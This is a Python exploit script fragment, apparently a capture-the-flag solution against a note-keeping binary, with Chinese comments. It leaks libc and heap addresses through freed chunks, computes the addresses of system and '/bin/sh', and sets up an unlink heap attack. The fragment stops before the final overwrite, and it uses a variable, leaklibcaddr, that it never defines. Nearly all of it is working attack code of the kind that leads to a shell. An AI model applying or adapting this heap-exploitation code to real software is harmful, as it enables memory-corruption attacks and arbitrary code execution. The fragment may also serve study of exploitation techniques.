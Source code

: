 ```python

if __name__ == '__main__':
    notelen = 0x80
    new_note('a' * notelen)
    new_note('b' * notelen)
    delete_note(0)
    new_note('cccccccc')
    list_note()
    p.recvuntil('0. ')
    leak = p.recvuntil('\n')
    #log.info('heap:' + str(u64(leak[8:-1])))
    print leak[0:-1].encode('hex')

    delete_note(1)
    delete_note(0)

    #libc_base = leaklibcaddr - offset          (此处偏移依据libc版本不同，基址页对齐4K,也就是地址后三位为000，如：0x7fabba34b000)
    #进而再算出system, "/bin/sh" 偏移  或者将"/bin/sh\x00" 写入到heap or bss
    system_sh_addr = leaklibcaddr - 0x3724a8   
    print "system_sh_addr: " + hex(system_sh_addr)
    binsh_addr = leaklibcaddr - 0x23e7f1
    print "binsh_addr: " + hex(binsh_addr)

    #raw_input()

    ####################leak heap#########################

    notelen=0x10

    new_note("A"*notelen)
    new_note("B"*notelen)
    new_note("C"*notelen)
    new_note("D"*notelen)
    delete_note(2)
    delete_note(0)

    new_note("AAAAAAAA")
    list_note()
    p.recvuntil("0. AAAAAAAA")
    leak = p.recvuntil("\n")

    print leak[0:-1].encode('hex')
    leakheapaddr = u64(leak[0:-1].ljust(8, '\x00'))
    print hex(leakheapaddr)

    delete_note(0)
    delete_note(1)
    delete_note(3)

    ####################unlink exp#########################

    notelen = 0x80

    #new_note("/bin/sh\x00"+"A"*(notelen-8))
    new_note("A"*notelen)
    new_note("B"*notelen)
    new_note("C"*notelen)

    delete_note(2)
    delete_note(1)
    delete_note(0)

```